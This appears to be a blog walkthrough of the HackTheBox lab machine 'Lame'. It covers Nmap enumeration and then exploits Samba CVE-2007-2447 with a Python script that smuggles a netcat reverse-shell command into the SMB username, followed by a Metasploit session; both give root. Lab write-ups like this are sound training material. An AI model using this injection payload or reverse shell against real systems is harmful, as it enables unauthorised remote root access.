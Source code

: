 ```yaml
---
layout: post
title:  "HackTheBox - Lame"
date:   2022-05-01 17:29:02 +0100
tags: RCE CVE-2007-2447 SMB 
---
```

**Difficulty: <span style="color:green">Easy</span>**  
**Personal Difficulty: <span style="color:green">Easy</span>**   
**Rating: 4.4 / 5**  

This box is arguably one of the easiest on the site. I decided to complete it mainly because I
didn't feel confident with other boxes labelled 'easy' so I wanted to attempt one that was ranked
as easy by users. And it indeed was.  

The key to owning this box was to pay attention to software versions, and keep on the lookout for 
outdated or vulnerable versions specifically. This problem identification is what allowed me to
discover a key RCE vulnerability which I show how to exploit in 2 different ways in this walkthrough.  

### Enumeration  

To start, a ran a Nmap scan for version to identify service versions as well as running default scripts
on the remote system.

```bash
nmap -sC -sV -oN scan.nmap
```

	Nmap scan report for 10.10.10.3
	Host is up (0.019s latency).
	Not shown: 996 filtered tcp ports (no-response)
	PORT    STATE SERVICE     VERSION
	21/tcp  open  ftp         vsftpd 2.3.4
	|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
	| ftp-syst: 
	|   STAT: 
	| FTP server status:
	|      Connected to 10.10.14.21
	|      Logged in as ftp
	|      TYPE: ASCII
	|      No session bandwidth limit
	|      Session timeout in seconds is 300
	|      Control connection is plain text
	|      Data connections will be plain text
	|      vsFTPd 2.3.4 - secure, fast, stable
	|_End of status
	22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
	| ssh-hostkey: 
	|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
	|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
	139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

	Host script results:
	| smb-os-discovery: 
	|   OS: Unix (Samba 3.0.20-Debian)
	|   Computer name: lame
	|   NetBIOS computer name: 
	|   Domain name: hackthebox.gr
	|   FQDN: lame.hackthebox.gr
	|_  System time: 2022-04-20T07:11:43-04:00
	|_smb2-time: Protocol negotiation failed (SMB2)
	| smb-security-mode: 
	|   account_used: guest
	|   authentication_level: user
	|   challenge_response: supported
	|_  message_signing: disabled (dangerous, but default)
	|_clock-skew: mean: 2h00m48s, deviation: 2h49m44s, median: 46s

Ports 21, 22, 139 and 445 are open. SMB 3.0.20 was being run on Debian according to the smb-os-discovery script.
Server Message Block (SMB) is a protocol designed for file and resource sharing on a
network. It's mainly for connecting Windows computers, but can be run on Unix systems too. You can find
more about it [here](https://en.wikipedia.org/wiki/Server_Message_Block).  

I considered that SMB wouldn't be as secure on linux (which is not the case after doing some further research) or 
that they may be running a faulty version. However I didn't go into that just yet. Instead, I decided to check out the FTP
server since anonymous login was allowed. To login via FTP anonymously, use the username `anonymous` and leave
the password blank.  

	$ ftp 10.10.10.3
	Connected to 10.10.10.3.
	220 (vsFTPd 2.3.4)
	Name (10.10.10.3:infiltr8): anonymous
	331 Please specify the password.
	Password: 
	230 Login successful.
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> dir
	229 Entering Extended Passive Mode (|||38290|).
	150 Here comes the directory listing.
	226 Directory send OK.
	ftp>  


Looks like there's no files to be share on the server. 
I also connected to the system with SMB but found nothing of interest.
With that, I'll start to investigate the specific SMB version, 3.0.20-Debian.    

A quick google search showed me that this machine was vulnerable to [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447).
A further search brought me to [this Metasploit script](https://www.exploit-db.com/exploits/16320). On inspection,
It seems like adding  "/=\`nohup"  and then a shell command (ending with \`) will allow for shell code execution.
`nohup` (no hangup) is a supplemental command used to keep certain processes or commands running even after logging out or disconnecting
from our shell. I'll exploit this using a script.

### <span style="color:red">Shell as Root</span>

I'll start off by showing the 'best practice' exploit, by writing a python script. All this script will do is attempt to connect to the
vulnerable system with the corrupt username and then the payload.  

```python
#!/usr/bin/python3
from smb.SMBConnection import SMBConnection

payload = "nc 10.10.14.21 4444 -e /bin/sh"
username = "/=`nohup " + payload + "`"

connection = SMBConnection(username, "", "", "")
connection.connect("10.10.10.3",445)
```
  
This was a simple enough script, but necessary since the payload cannot be injected via smbclient. I set up a netcat listener on another
terminal and got root access; both flags captured.  

```bash
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.3] 35336
whoami
root
cd root
ls
Desktop
reset_logs.sh
root.txt
vnc.log
```

And user flag:

```bash
cd /home
ls
ftp
makis
service
user
cd makis && ls
user.txt
```
### Metasploit method

This is essentially the same as what I did but with Metasploit.  

Searching for the script:

	msf6 > search usermap script

	Matching Modules
	================

	   #  Name                                Disclosure Date  Rank       Check  Description
	   -  ----                                ---------------  ----       -----  -----------
	   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


	Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

	msf6 > use 0
	[*] No payload configured, defaulting to cmd/unix/reverse_netcat
	
Setting options:

	msf6 exploit(multi/samba/usermap_script) > show options

	Module options (exploit/multi/samba/usermap_script):

	   Name    Current Setting                                   Required  Description
	   ----    ---------------                                   --------  -----------
	   RHOSTS  10.10.10.3; set RPORT 445, set LHOST 10.10.14.21  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
	   RPORT   139                                               yes       The target port (TCP)


	Payload options (cmd/unix/reverse_netcat):

	   Name   Current Setting  Required  Description
	   ----   ---------------  --------  -----------
	   LHOST  192.168.50.241   yes       The listen address (an interface may be specified)
	   LPORT  4444             yes       The listen port


	Exploit target:

	   Id  Name
	   --  ----
	   0   Automatic


	msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
	RHOSTS => 10.10.10.3
	msf6 exploit(multi/samba/usermap_script) > set RPORT 445
	RPORT => 445
	msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.21
	LHOST => 10.10.14.21
	msf6 exploit(multi/samba/usermap_script) > exploit

	[*] Started reverse TCP handler on 10.10.14.21:4444 
	[*] Command shell session 1 opened (10.10.14.21:4444 -> 10.10.10.3:46546 ) at 2022-05-02 15:58:43 +0100

We got shell as root:

```bash
whoami
root
cd root && ls
Desktop
reset_logs.sh
root.txt
vnc.log
```

